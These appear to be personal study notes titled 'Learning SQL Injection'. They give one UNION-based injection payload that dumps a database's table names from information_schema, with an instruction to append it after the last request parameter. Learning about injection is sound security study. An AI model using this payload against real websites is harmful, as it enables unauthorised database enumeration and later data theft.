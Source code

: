 # Learning SQL Injection

Just taking some notes about different SQL Injections.

---------------------------------------------

## Add the command after the last parameter

#### - This will display the tables
```
UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```